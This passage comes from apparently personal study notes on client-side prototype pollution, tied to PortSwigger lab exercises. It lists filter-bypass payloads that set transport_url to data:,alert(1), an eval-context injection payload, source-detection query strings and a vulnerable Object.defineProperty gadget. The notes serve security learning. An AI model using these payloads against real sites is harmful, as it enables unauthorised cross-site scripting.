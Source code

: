     * The client-side code may have some extra protections that are flawed, such as removing key words but not doing it recursively.

* Payloads to bypass this validation:

    * /?\_\_pro\_\_proto\_\_to\_\_[transport_url]=data:,alert(1);

    * /?\_\_pro\_\_proto\_\_to\_\_.transport_url=data:,alert(1);

    * /?constconstructorructor.[protoprototypetype][transport_url]=data:,alert(1);

    * /?constconstructorructor.protoprototypetype.transport_url=data:,alert(1);
 
* Another scenario:

	* The application is using the user input within an eval() function. To trigger an XSS vulnerability it is required "break" out of the context (use hyphens):

 		* Example Payload:  ?\_\_proto\_\_.sequence=-alert(1)-

<br><br>

### __Client-side Prototype Pollution - Third-party Libraries__

* Use DOM Invader to exploit these scenarios as it will save a lot of time.

* DOM Invader is pretty straight forward to use.

* Look at the solution for the following lab to learn more about it - https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries


<br><br>

### __Client-side Prototype Pollution - Browser APIs__

* Identify a prototype pollution source:

    * Inject an arbitrary property via a query string and determine if it has polluted the Object prototype.
	
        * /?\_\_proto\_\_.foo=bar
	
        * /?\_\_proto\_\_[foo]=bar

    * Type the following in the browser's console and see if the Object has been polluted:
	
        * Object.prototype


* Identify a gadget:

    * Look through the clients-side source code and identify if there is an Object using a property in an insecure way.

    * For example, the code is using the method Object.defineProperty() to define the property "transport_url", however, the "value" descriptor which is used to define the value associated with the property is not being defined:

```javascript
Object.defineProperty(config, 'transport_url', {
	configurable: false,
	writable: false
	// missing -> value: "test"
});
```
